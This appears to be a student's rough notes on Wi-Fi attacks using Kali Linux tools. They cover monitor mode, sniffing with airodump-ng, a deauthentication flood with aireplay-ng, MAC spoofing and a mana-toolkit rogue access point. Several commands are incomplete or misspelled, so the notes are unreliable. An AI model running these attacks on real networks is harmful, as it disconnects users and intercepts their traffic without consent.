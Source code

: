 # kali

iwconfig wlan0
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig wlan0
airodump-ng wlan0
'ctrl-c' stop sniffing
ID-power-beacons
airodump-ng --channel[channel] --bssid[] -write
airodump-ng --channel 2 --bssid[] --write test -apcwlan0 ???????????????
wireshark open file ??????????

deauth attack--disconnects device from network
spoof our MAC address to the target client MAC address (pretend to be him)
send deauthentication packet to router
simultaneously spook our MAC address to the access point MAC address (router) and tell the target client you need to re-authenticate yourself

airodump-ng --channel[] --bssid[] wlan0
aireplay-ng --deauth 10000 -a -c wlan0

Fake access point (honey pot)
apt-get install mana-toolkit
gedit /etc/mana-toolkit/host apd-mana.conf
gedit /usr/share/mana-toolkit/run-mana/start-nat-simple.sh
bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh
test3
